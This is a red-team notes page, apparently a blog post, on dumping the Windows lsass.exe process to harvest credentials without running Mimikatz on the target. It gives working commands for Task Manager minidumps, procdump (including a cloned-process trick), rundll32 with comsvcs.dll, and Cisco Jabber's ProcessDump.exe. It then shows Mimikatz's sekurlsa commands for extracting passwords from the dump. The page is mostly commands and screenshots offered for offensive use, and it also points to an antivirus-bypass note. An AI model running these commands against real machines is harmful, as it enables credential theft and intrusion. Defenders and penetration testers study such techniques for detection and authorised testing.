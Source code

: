 ```yaml
---
layout: post
title: "2024-06-18-dump credentials from lsass process without mimikatz"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dump-credentials-from-lsass-process-without-mimikatz/
---
```


# Dumping Lsass Without Mimikatz

## MiniDumpWriteDump API

See my notes about writing a simple custom process dumper using `MiniDumpWriteDump` API:

{% content-ref url="dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md" %}
[dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md](dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md)
{% endcontent-ref %}

## Task Manager

Create a minidump of the lsass.exe using task manager (must be running as administrator):

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-55-27.png>)

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-56-12.png>)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-54-15.png>)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-11-28.png>)

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-13-25.png>)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](<../../.gitbook/assets/image (165).png>)

## ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber (always?) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:

```
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

![screenshot by @em1rerdogan](<../../.gitbook/assets/image (634).png>)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}
@spotheplanet
